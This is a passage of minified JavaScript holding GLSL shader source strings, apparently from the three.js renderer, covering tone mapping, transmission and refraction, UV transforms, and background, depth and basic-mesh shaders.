)\n\t);\n\tconst mat3 AgXOutsetMatrix = mat3(\n\t\tvec3( 1.1271005818144368, - 0.1413297634984383, - 0.14132976349843826 ),\n\t\tvec3( - 0.11060664309660323, 1.157823702216272, - 0.11060664309660294 ),\n\t\tvec3( - 0.016493938717834573, - 0.016493938717834257, 1.2519364065950405 )\n\t);\n\tconst float AgxMinEv = - 12.47393;\tconst float AgxMaxEv = 4.026069;\n\tcolor *= toneMappingExposure;\n\tcolor = LINEAR_SRGB_TO_LINEAR_REC2020 * color;\n\tcolor = AgXInsetMatrix * color;\n\tcolor = max( color, 1e-10 );\tcolor = log2( color );\n\tcolor = ( color - AgxMinEv ) / ( AgxMaxEv - AgxMinEv );\n\tcolor = clamp( color, 0.0, 1.0 );\n\tcolor = agxDefaultContrastApprox( color );\n\tcolor = AgXOutsetMatrix * color;\n\tcolor = pow( max( vec3( 0.0 ), color ), vec3( 2.2 ) );\n\tcolor = LINEAR_REC2020_TO_LINEAR_SRGB * color;\n\tcolor = clamp( color, 0.0, 1.0 );\n\treturn color;\n}\nvec3 NeutralToneMapping( vec3 color ) {\n\tconst float StartCompression = 0.8 - 0.04;\n\tconst float Desaturation = 0.15;\n\tcolor *= toneMappingExposure;\n\tfloat x = min( color.r, min( color.g, color.b ) );\n\tfloat offset = x < 0.08 ? x - 6.25 * x * x : 0.04;\n\tcolor -= offset;\n\tfloat peak = max( color.r, max( color.g, color.b ) );\n\tif ( peak < StartCompression ) return color;\n\tfloat d = 1. - StartCompression;\n\tfloat newPeak = 1. - d * d / ( peak + d - StartCompression );\n\tcolor *= newPeak / peak;\n\tfloat g = 1. - 1. / ( Desaturation * ( peak - newPeak ) + 1. );\n\treturn mix( color, vec3( newPeak ), g );\n}\nvec3 CustomToneMapping( vec3 color ) { return color; }",transmission_fragment:"#ifdef USE_TRANSMISSION\n\tmaterial.transmission = transmission;\n\tmaterial.transmissionAlpha = 1.0;\n\tmaterial.thickness = thickness;\n\tmaterial.attenuationDistance = attenuationDistance;\n\tmaterial.attenuationColor = attenuationColor;\n\t#ifdef USE_TRANSMISSIONMAP\n\t\tmaterial.transmission *= texture2D( transmissionMap, vTransmissionMapUv ).r;\n\t#endif\n\t#ifdef USE_THICKNESSMAP\n\t\tmaterial.thickness *= texture2D( thicknessMap, vThicknessMapUv ).g;\n\t#endif\n\tvec3 pos = vWorldPosition;\n\tvec3 v = normalize( cameraPosition - pos );\n\tvec3 n = inverseTransformDirection( normal, viewMatrix );\n\tvec4 transmitted = getIBLVolumeRefraction(\n\t\tn, v, material.roughness, material.diffuseColor, material.specularColor, material.specularF90,\n\t\tpos, modelMatrix, viewMatrix, projectionMatrix, material.dispersion, material.ior, material.thickness,\n\t\tmaterial.attenuationColor, material.attenuationDistance );\n\tmaterial.transmissionAlpha = mix( material.transmissionAlpha, transmitted.a, material.transmission );\n\ttotalDiffuse = mix( totalDiffuse, transmitted.rgb, material.transmission );\n#endif",transmission_pars_fragment:"#ifdef USE_TRANSMISSION\n\tuniform float transmission;\n\tuniform float thickness;\n\tuniform float attenuationDistance;\n\tuniform vec3 attenuationColor;\n\t#ifdef USE_TRANSMISSIONMAP\n\t\tuniform sampler2D transmissionMap;\n\t#endif\n\t#ifdef USE_THICKNESSMAP\n\t\tuniform sampler2D thicknessMap;\n\t#endif\n\tuniform vec2 transmissionSamplerSize;\n\tuniform sampler2D transmissionSamplerMap;\n\tuniform mat4 modelMatrix;\n\tuniform mat4 projectionMatrix;\n\tvarying vec3 vWorldPosition;\n\tfloat w0( float a ) {\n\t\treturn ( 1.0 / 6.0 ) * ( a * ( a * ( - a + 3.0 ) - 3.0 ) + 1.0 );\n\t}\n\tfloat w1( float a ) {\n\t\treturn ( 1.0 / 6.0 ) * ( a *  a * ( 3.0 * a - 6.0 ) + 4.0 );\n\t}\n\tfloat w2( float a ){\n\t\treturn ( 1.0 / 6.0 ) * ( a * ( a * ( - 3.0 * a + 3.0 ) + 3.0 ) + 1.0 );\n\t}\n\tfloat w3( float a ) {\n\t\treturn ( 1.0 / 6.0 ) * ( a * a * a );\n\t}\n\tfloat g0( float a ) {\n\t\treturn w0( a ) + w1( a );\n\t}\n\tfloat g1( float a ) {\n\t\treturn w2( a ) + w3( a );\n\t}\n\tfloat h0( float a ) {\n\t\treturn - 1.0 + w1( a ) / ( w0( a ) + w1( a ) );\n\t}\n\tfloat h1( float a ) {\n\t\treturn 1.0 + w3( a ) / ( w2( a ) + w3( a ) );\n\t}\n\tvec4 bicubic( sampler2D tex, vec2 uv, vec4 texelSize, float lod ) {\n\t\tuv = uv * texelSize.zw + 0.5;\n\t\tvec2 iuv = floor( uv );\n\t\tvec2 fuv = fract( uv );\n\t\tfloat g0x = g0( fuv.x );\n\t\tfloat g1x = g1( fuv.x );\n\t\tfloat h0x = h0( fuv.x );\n\t\tfloat h1x = h1( fuv.x );\n\t\tfloat h0y = h0( fuv.y );\n\t\tfloat h1y = h1( fuv.y );\n\t\tvec2 p0 = ( vec2( iuv.x + h0x, iuv.y + h0y ) - 0.5 ) * texelSize.xy;\n\t\tvec2 p1 = ( vec2( iuv.x + h1x, iuv.y + h0y ) - 0.5 ) * texelSize.xy;\n\t\tvec2 p2 = ( vec2( iuv.x + h0x, iuv.y + h1y ) - 0.5 ) * texelSize.xy;\n\t\tvec2 p3 = ( vec2( iuv.x + h1x, iuv.y + h1y ) - 0.5 ) * texelSize.xy;\n\t\treturn g0( fuv.y ) * ( g0x * textureLod( tex, p0, lod ) + g1x * textureLod( tex, p1, lod ) ) +\n\t\t\tg1( fuv.y ) * ( g0x * textureLod( tex, p2, lod ) + g1x * textureLod( tex, p3, lod ) );\n\t}\n\tvec4 textureBicubic( sampler2D sampler, vec2 uv, float lod ) {\n\t\tvec2 fLodSize = vec2( textureSize( sampler, int( lod ) ) );\n\t\tvec2 cLodSize = vec2( textureSize( sampler, int( lod + 1.0 ) ) );\n\t\tvec2 fLodSizeInv = 1.0 / fLodSize;\n\t\tvec2 cLodSizeInv = 1.0 / cLodSize;\n\t\tvec4 fSample = bicubic( sampler, uv, vec4( fLodSizeInv, fLodSize ), floor( lod ) );\n\t\tvec4 cSample = bicubic( sampler, uv, vec4( cLodSizeInv, cLodSize ), ceil( lod ) );\n\t\treturn mix( fSample, cSample, fract( lod ) );\n\t}\n\tvec3 getVolumeTransmissionRay( const in vec3 n, const in vec3 v, const in float thickness, const in float ior, const in mat4 modelMatrix ) {\n\t\tvec3 refractionVector = refract( - v, normalize( n ), 1.0 / ior );\n\t\tvec3 modelScale;\n\t\tmodelScale.x = length( vec3( modelMatrix[ 0 ].xyz ) );\n\t\tmodelScale.y = length( vec3( modelMatrix[ 1 ].xyz ) );\n\t\tmodelScale.z = length( vec3( modelMatrix[ 2 ].xyz ) );\n\t\treturn normalize( refractionVector ) * thickness * modelScale;\n\t}\n\tfloat applyIorToRoughness( const in float roughness, const in float ior ) {\n\t\treturn roughness * clamp( ior * 2.0 - 2.0, 0.0, 1.0 );\n\t}\n\tvec4 getTransmissionSample( const in vec2 fragCoord, const in float roughness, const in float ior ) {\n\t\tfloat lod = log2( transmissionSamplerSize.x ) * applyIorToRoughness( roughness, ior );\n\t\treturn textureBicubic( transmissionSamplerMap, fragCoord.xy, lod );\n\t}\n\tvec3 volumeAttenuation( const in float transmissionDistance, const in vec3 attenuationColor, const in float attenuationDistance ) {\n\t\tif ( isinf( attenuationDistance ) ) {\n\t\t\treturn vec3( 1.0 );\n\t\t} else {\n\t\t\tvec3 attenuationCoefficient = -log( attenuationColor ) / attenuationDistance;\n\t\t\tvec3 transmittance = exp( - attenuationCoefficient * transmissionDistance );\t\t\treturn transmittance;\n\t\t}\n\t}\n\tvec4 getIBLVolumeRefraction( const in vec3 n, const in vec3 v, const in float roughness, const in vec3 diffuseColor,\n\t\tconst in vec3 specularColor, const in float specularF90, const in vec3 position, const in mat4 modelMatrix,\n\t\tconst in mat4 viewMatrix, const in mat4 projMatrix, const in float dispersion, const in float ior, const in float thickness,\n\t\tconst in vec3 attenuationColor, const in float attenuationDistance ) {\n\t\tvec4 transmittedLight;\n\t\tvec3 transmittance;\n\t\t#ifdef USE_DISPERSION\n\t\t\tfloat halfSpread = ( ior - 1.0 ) * 0.025 * dispersion;\n\t\t\tvec3 iors = vec3( ior - halfSpread, ior, ior + halfSpread );\n\t\t\tfor ( int i = 0; i < 3; i ++ ) {\n\t\t\t\tvec3 transmissionRay = getVolumeTransmissionRay( n, v, thickness, iors[ i ], modelMatrix );\n\t\t\t\tvec3 refractedRayExit = position + transmissionRay;\n\t\t\n\t\t\t\tvec4 ndcPos = projMatrix * viewMatrix * vec4( refractedRayExit, 1.0 );\n\t\t\t\tvec2 refractionCoords = ndcPos.xy / ndcPos.w;\n\t\t\t\trefractionCoords += 1.0;\n\t\t\t\trefractionCoords /= 2.0;\n\t\t\n\t\t\t\tvec4 transmissionSample = getTransmissionSample( refractionCoords, roughness, iors[ i ] );\n\t\t\t\ttransmittedLight[ i ] = transmissionSample[ i ];\n\t\t\t\ttransmittedLight.a += transmissionSample.a;\n\t\t\t\ttransmittance[ i ] = diffuseColor[ i ] * volumeAttenuation( length( transmissionRay ), attenuationColor, attenuationDistance )[ i ];\n\t\t\t}\n\t\t\ttransmittedLight.a /= 3.0;\n\t\t\n\t\t#else\n\t\t\n\t\t\tvec3 transmissionRay = getVolumeTransmissionRay( n, v, thickness, ior, modelMatrix );\n\t\t\tvec3 refractedRayExit = position + transmissionRay;\n\t\t\tvec4 ndcPos = projMatrix * viewMatrix * vec4( refractedRayExit, 1.0 );\n\t\t\tvec2 refractionCoords = ndcPos.xy / ndcPos.w;\n\t\t\trefractionCoords += 1.0;\n\t\t\trefractionCoords /= 2.0;\n\t\t\ttransmittedLight = getTransmissionSample( refractionCoords, roughness, ior );\n\t\t\ttransmittance = diffuseColor * volumeAttenuation( length( transmissionRay ), attenuationColor, attenuationDistance );\n\t\t\n\t\t#endif\n\t\tvec3 attenuatedColor = transmittance * transmittedLight.rgb;\n\t\tvec3 F = EnvironmentBRDF( n, v, specularColor, specularF90, roughness );\n\t\tfloat transmittanceFactor = ( transmittance.r + transmittance.g + transmittance.b ) / 3.0;\n\t\treturn vec4( ( 1.0 - F ) * attenuatedColor, 1.0 - ( 1.0 - transmittedLight.a ) * transmittanceFactor );\n\t}\n#endif",uv_pars_fragment:"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\n\tvarying vec2 vUv;\n#endif\n#ifdef USE_MAP\n\tvarying vec2 vMapUv;\n#endif\n#ifdef USE_ALPHAMAP\n\tvarying vec2 vAlphaMapUv;\n#endif\n#ifdef USE_LIGHTMAP\n\tvarying vec2 vLightMapUv;\n#endif\n#ifdef USE_AOMAP\n\tvarying vec2 vAoMapUv;\n#endif\n#ifdef USE_BUMPMAP\n\tvarying vec2 vBumpMapUv;\n#endif\n#ifdef USE_NORMALMAP\n\tvarying vec2 vNormalMapUv;\n#endif\n#ifdef USE_EMISSIVEMAP\n\tvarying vec2 vEmissiveMapUv;\n#endif\n#ifdef USE_METALNESSMAP\n\tvarying vec2 vMetalnessMapUv;\n#endif\n#ifdef USE_ROUGHNESSMAP\n\tvarying vec2 vRoughnessMapUv;\n#endif\n#ifdef USE_ANISOTROPYMAP\n\tvarying vec2 vAnisotropyMapUv;\n#endif\n#ifdef USE_CLEARCOATMAP\n\tvarying vec2 vClearcoatMapUv;\n#endif\n#ifdef USE_CLEARCOAT_NORMALMAP\n\tvarying vec2 vClearcoatNormalMapUv;\n#endif\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\n\tvarying vec2 vClearcoatRoughnessMapUv;\n#endif\n#ifdef USE_IRIDESCENCEMAP\n\tvarying vec2 vIridescenceMapUv;\n#endif\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\n\tvarying vec2 vIridescenceThicknessMapUv;\n#endif\n#ifdef USE_SHEEN_COLORMAP\n\tvarying vec2 vSheenColorMapUv;\n#endif\n#ifdef USE_SHEEN_ROUGHNESSMAP\n\tvarying vec2 vSheenRoughnessMapUv;\n#endif\n#ifdef USE_SPECULARMAP\n\tvarying vec2 vSpecularMapUv;\n#endif\n#ifdef USE_SPECULAR_COLORMAP\n\tvarying vec2 vSpecularColorMapUv;\n#endif\n#ifdef USE_SPECULAR_INTENSITYMAP\n\tvarying vec2 vSpecularIntensityMapUv;\n#endif\n#ifdef USE_TRANSMISSIONMAP\n\tuniform mat3 transmissionMapTransform;\n\tvarying vec2 vTransmissionMapUv;\n#endif\n#ifdef USE_THICKNESSMAP\n\tuniform mat3 thicknessMapTransform;\n\tvarying vec2 vThicknessMapUv;\n#endif",uv_pars_vertex:"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\n\tvarying vec2 vUv;\n#endif\n#ifdef USE_MAP\n\tuniform mat3 mapTransform;\n\tvarying vec2 vMapUv;\n#endif\n#ifdef USE_ALPHAMAP\n\tuniform mat3 alphaMapTransform;\n\tvarying vec2 vAlphaMapUv;\n#endif\n#ifdef USE_LIGHTMAP\n\tuniform mat3 lightMapTransform;\n\tvarying vec2 vLightMapUv;\n#endif\n#ifdef USE_AOMAP\n\tuniform mat3 aoMapTransform;\n\tvarying vec2 vAoMapUv;\n#endif\n#ifdef USE_BUMPMAP\n\tuniform mat3 bumpMapTransform;\n\tvarying vec2 vBumpMapUv;\n#endif\n#ifdef USE_NORMALMAP\n\tuniform mat3 normalMapTransform;\n\tvarying vec2 vNormalMapUv;\n#endif\n#ifdef USE_DISPLACEMENTMAP\n\tuniform mat3 displacementMapTransform;\n\tvarying vec2 vDisplacementMapUv;\n#endif\n#ifdef USE_EMISSIVEMAP\n\tuniform mat3 emissiveMapTransform;\n\tvarying vec2 vEmissiveMapUv;\n#endif\n#ifdef USE_METALNESSMAP\n\tuniform mat3 metalnessMapTransform;\n\tvarying vec2 vMetalnessMapUv;\n#endif\n#ifdef USE_ROUGHNESSMAP\n\tuniform mat3 roughnessMapTransform;\n\tvarying vec2 vRoughnessMapUv;\n#endif\n#ifdef USE_ANISOTROPYMAP\n\tuniform mat3 anisotropyMapTransform;\n\tvarying vec2 vAnisotropyMapUv;\n#endif\n#ifdef USE_CLEARCOATMAP\n\tuniform mat3 clearcoatMapTransform;\n\tvarying vec2 vClearcoatMapUv;\n#endif\n#ifdef USE_CLEARCOAT_NORMALMAP\n\tuniform mat3 clearcoatNormalMapTransform;\n\tvarying vec2 vClearcoatNormalMapUv;\n#endif\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\n\tuniform mat3 clearcoatRoughnessMapTransform;\n\tvarying vec2 vClearcoatRoughnessMapUv;\n#endif\n#ifdef USE_SHEEN_COLORMAP\n\tuniform mat3 sheenColorMapTransform;\n\tvarying vec2 vSheenColorMapUv;\n#endif\n#ifdef USE_SHEEN_ROUGHNESSMAP\n\tuniform mat3 sheenRoughnessMapTransform;\n\tvarying vec2 vSheenRoughnessMapUv;\n#endif\n#ifdef USE_IRIDESCENCEMAP\n\tuniform mat3 iridescenceMapTransform;\n\tvarying vec2 vIridescenceMapUv;\n#endif\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\n\tuniform mat3 iridescenceThicknessMapTransform;\n\tvarying vec2 vIridescenceThicknessMapUv;\n#endif\n#ifdef USE_SPECULARMAP\n\tuniform mat3 specularMapTransform;\n\tvarying vec2 vSpecularMapUv;\n#endif\n#ifdef USE_SPECULAR_COLORMAP\n\tuniform mat3 specularColorMapTransform;\n\tvarying vec2 vSpecularColorMapUv;\n#endif\n#ifdef USE_SPECULAR_INTENSITYMAP\n\tuniform mat3 specularIntensityMapTransform;\n\tvarying vec2 vSpecularIntensityMapUv;\n#endif\n#ifdef USE_TRANSMISSIONMAP\n\tuniform mat3 transmissionMapTransform;\n\tvarying vec2 vTransmissionMapUv;\n#endif\n#ifdef USE_THICKNESSMAP\n\tuniform mat3 thicknessMapTransform;\n\tvarying vec2 vThicknessMapUv;\n#endif",uv_vertex:"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\n\tvUv = vec3( uv, 1 ).xy;\n#endif\n#ifdef USE_MAP\n\tvMapUv = ( mapTransform * vec3( MAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_ALPHAMAP\n\tvAlphaMapUv = ( alphaMapTransform * vec3( ALPHAMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_LIGHTMAP\n\tvLightMapUv = ( lightMapTransform * vec3( LIGHTMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_AOMAP\n\tvAoMapUv = ( aoMapTransform * vec3( AOMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_BUMPMAP\n\tvBumpMapUv = ( bumpMapTransform * vec3( BUMPMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_NORMALMAP\n\tvNormalMapUv = ( normalMapTransform * vec3( NORMALMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_DISPLACEMENTMAP\n\tvDisplacementMapUv = ( displacementMapTransform * vec3( DISPLACEMENTMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_EMISSIVEMAP\n\tvEmissiveMapUv = ( emissiveMapTransform * vec3( EMISSIVEMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_METALNESSMAP\n\tvMetalnessMapUv = ( metalnessMapTransform * vec3( METALNESSMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_ROUGHNESSMAP\n\tvRoughnessMapUv = ( roughnessMapTransform * vec3( ROUGHNESSMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_ANISOTROPYMAP\n\tvAnisotropyMapUv = ( anisotropyMapTransform * vec3( ANISOTROPYMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_CLEARCOATMAP\n\tvClearcoatMapUv = ( clearcoatMapTransform * vec3( CLEARCOATMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_CLEARCOAT_NORMALMAP\n\tvClearcoatNormalMapUv = ( clearcoatNormalMapTransform * vec3( CLEARCOAT_NORMALMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\n\tvClearcoatRoughnessMapUv = ( clearcoatRoughnessMapTransform * vec3( CLEARCOAT_ROUGHNESSMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_IRIDESCENCEMAP\n\tvIridescenceMapUv = ( iridescenceMapTransform * vec3( IRIDESCENCEMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\n\tvIridescenceThicknessMapUv = ( iridescenceThicknessMapTransform * vec3( IRIDESCENCE_THICKNESSMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_SHEEN_COLORMAP\n\tvSheenColorMapUv = ( sheenColorMapTransform * vec3( SHEEN_COLORMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_SHEEN_ROUGHNESSMAP\n\tvSheenRoughnessMapUv = ( sheenRoughnessMapTransform * vec3( SHEEN_ROUGHNESSMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_SPECULARMAP\n\tvSpecularMapUv = ( specularMapTransform * vec3( SPECULARMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_SPECULAR_COLORMAP\n\tvSpecularColorMapUv = ( specularColorMapTransform * vec3( SPECULAR_COLORMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_SPECULAR_INTENSITYMAP\n\tvSpecularIntensityMapUv = ( specularIntensityMapTransform * vec3( SPECULAR_INTENSITYMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_TRANSMISSIONMAP\n\tvTransmissionMapUv = ( transmissionMapTransform * vec3( TRANSMISSIONMAP_UV, 1 ) ).xy;\n#endif\n#ifdef USE_THICKNESSMAP\n\tvThicknessMapUv = ( thicknessMapTransform * vec3( THICKNESSMAP_UV, 1 ) ).xy;\n#endif",worldpos_vertex:"#if defined( USE_ENVMAP ) || defined( DISTANCE ) || defined ( USE_SHADOWMAP ) || defined ( USE_TRANSMISSION ) || NUM_SPOT_LIGHT_COORDS > 0\n\tvec4 worldPosition = vec4( transformed, 1.0 );\n\t#ifdef USE_BATCHING\n\t\tworldPosition = batchingMatrix * worldPosition;\n\t#endif\n\t#ifdef USE_INSTANCING\n\t\tworldPosition = instanceMatrix * worldPosition;\n\t#endif\n\tworldPosition = modelMatrix * worldPosition;\n#endif",background_vert:"varying vec2 vUv;\nuniform mat3 uvTransform;\nvoid main() {\n\tvUv = ( uvTransform * vec3( uv, 1 ) ).xy;\n\tgl_Position = vec4( position.xy, 1.0, 1.0 );\n}",background_frag:"uniform sampler2D t2D;\nuniform float backgroundIntensity;\nvarying vec2 vUv;\nvoid main() {\n\tvec4 texColor = texture2D( t2D, vUv );\n\t#ifdef DECODE_VIDEO_TEXTURE\n\t\ttexColor = vec4( mix( pow( texColor.rgb * 0.9478672986 + vec3( 0.0521327014 ), vec3( 2.4 ) ), texColor.rgb * 0.0773993808, vec3( lessThanEqual( texColor.rgb, vec3( 0.04045 ) ) ) ), texColor.w );\n\t#endif\n\ttexColor.rgb *= backgroundIntensity;\n\tgl_FragColor = texColor;\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n}",backgroundCube_vert:"varying vec3 vWorldDirection;\n#include <common>\nvoid main() {\n\tvWorldDirection = transformDirection( position, modelMatrix );\n\t#include <begin_vertex>\n\t#include <project_vertex>\n\tgl_Position.z = gl_Position.w;\n}",backgroundCube_frag:"#ifdef ENVMAP_TYPE_CUBE\n\tuniform samplerCube envMap;\n#elif defined( ENVMAP_TYPE_CUBE_UV )\n\tuniform sampler2D envMap;\n#endif\nuniform float flipEnvMap;\nuniform float backgroundBlurriness;\nuniform float backgroundIntensity;\nuniform mat3 backgroundRotation;\nvarying vec3 vWorldDirection;\n#include <cube_uv_reflection_fragment>\nvoid main() {\n\t#ifdef ENVMAP_TYPE_CUBE\n\t\tvec4 texColor = textureCube( envMap, backgroundRotation * vec3( flipEnvMap * vWorldDirection.x, vWorldDirection.yz ) );\n\t#elif defined( ENVMAP_TYPE_CUBE_UV )\n\t\tvec4 texColor = textureCubeUV( envMap, backgroundRotation * vWorldDirection, backgroundBlurriness );\n\t#else\n\t\tvec4 texColor = vec4( 0.0, 0.0, 0.0, 1.0 );\n\t#endif\n\ttexColor.rgb *= backgroundIntensity;\n\tgl_FragColor = texColor;\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n}",cube_vert:"varying vec3 vWorldDirection;\n#include <common>\nvoid main() {\n\tvWorldDirection = transformDirection( position, modelMatrix );\n\t#include <begin_vertex>\n\t#include <project_vertex>\n\tgl_Position.z = gl_Position.w;\n}",cube_frag:"uniform samplerCube tCube;\nuniform float tFlip;\nuniform float opacity;\nvarying vec3 vWorldDirection;\nvoid main() {\n\tvec4 texColor = textureCube( tCube, vec3( tFlip * vWorldDirection.x, vWorldDirection.yz ) );\n\tgl_FragColor = texColor;\n\tgl_FragColor.a *= opacity;\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n}",depth_vert:"#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvarying vec2 vHighPrecisionZW;\nvoid main() {\n\t#include <uv_vertex>\n\t#include <batching_vertex>\n\t#include <skinbase_vertex>\n\t#include <morphinstance_vertex>\n\t#ifdef USE_DISPLACEMENTMAP\n\t\t#include <beginnormal_vertex>\n\t\t#include <morphnormal_vertex>\n\t\t#include <skinnormal_vertex>\n\t#endif\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\tvHighPrecisionZW = gl_Position.zw;\n}",depth_frag:"#if DEPTH_PACKING == 3200\n\tuniform float opacity;\n#endif\n#include <common>\n#include <packing>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvarying vec2 vHighPrecisionZW;\nvoid main() {\n\tvec4 diffuseColor = vec4( 1.0 );\n\t#include <clipping_planes_fragment>\n\t#if DEPTH_PACKING == 3200\n\t\tdiffuseColor.a = opacity;\n\t#endif\n\t#include <map_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <logdepthbuf_fragment>\n\tfloat fragCoordZ = 0.5 * vHighPrecisionZW[0] / vHighPrecisionZW[1] + 0.5;\n\t#if DEPTH_PACKING == 3200\n\t\tgl_FragColor = vec4( vec3( 1.0 - fragCoordZ ), opacity );\n\t#elif DEPTH_PACKING == 3201\n\t\tgl_FragColor = packDepthToRGBA( fragCoordZ );\n\t#elif DEPTH_PACKING == 3202\n\t\tgl_FragColor = vec4( packDepthToRGB( fragCoordZ ), 1.0 );\n\t#elif DEPTH_PACKING == 3203\n\t\tgl_FragColor = vec4( packDepthToRG( fragCoordZ ), 0.0, 1.0 );\n\t#endif\n}",distanceRGBA_vert:"#define DISTANCE\nvarying vec3 vWorldPosition;\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <batching_vertex>\n\t#include <skinbase_vertex>\n\t#include <morphinstance_vertex>\n\t#ifdef USE_DISPLACEMENTMAP\n\t\t#include <beginnormal_vertex>\n\t\t#include <morphnormal_vertex>\n\t\t#include <skinnormal_vertex>\n\t#endif\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <worldpos_vertex>\n\t#include <clipping_planes_vertex>\n\tvWorldPosition = worldPosition.xyz;\n}",distanceRGBA_frag:"#define DISTANCE\nuniform vec3 referencePosition;\nuniform float nearDistance;\nuniform float farDistance;\nvarying vec3 vWorldPosition;\n#include <common>\n#include <packing>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main () {\n\tvec4 diffuseColor = vec4( 1.0 );\n\t#include <clipping_planes_fragment>\n\t#include <map_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\tfloat dist = length( vWorldPosition - referencePosition );\n\tdist = ( dist - nearDistance ) / ( farDistance - nearDistance );\n\tdist = saturate( dist );\n\tgl_FragColor = packDepthToRGBA( dist );\n}",equirect_vert:"varying vec3 vWorldDirection;\n#include <common>\nvoid main() {\n\tvWorldDirection = transformDirection( position, modelMatrix );\n\t#include <begin_vertex>\n\t#include <project_vertex>\n}",equirect_frag:"uniform sampler2D tEquirect;\nvarying vec3 vWorldDirection;\n#include <common>\nvoid main() {\n\tvec3 direction = normalize( vWorldDirection );\n\tvec2 sampleUV = equirectUv( direction );\n\tgl_FragColor = texture2D( tEquirect, sampleUV );\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n}",linedashed_vert:"uniform float scale;\nattribute float lineDistance;\nvarying float vLineDistance;\n#include <common>\n#include <uv_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\tvLineDistance = scale * lineDistance;\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\t#include <fog_vertex>\n}",linedashed_frag:"uniform vec3 diffuse;\nuniform float opacity;\nuniform float dashSize;\nuniform float totalSize;\nvarying float vLineDistance;\n#include <common>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <fog_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tif ( mod( vLineDistance, totalSize ) > dashSize ) {\n\t\tdiscard;\n\t}\n\tvec3 outgoingLight = vec3( 0.0 );\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\toutgoingLight = diffuseColor.rgb;\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n}",meshbasic_vert:"#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <envmap_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#if defined ( USE_ENVMAP ) || defined ( USE_SKINNING )\n\t\t#include <beginnormal_vertex>\n\t\t#include <morphnormal_vertex>\n\t\t#include <skinbase_vertex>\n\t\t#include <skinnormal_vertex>\n\t\t#include 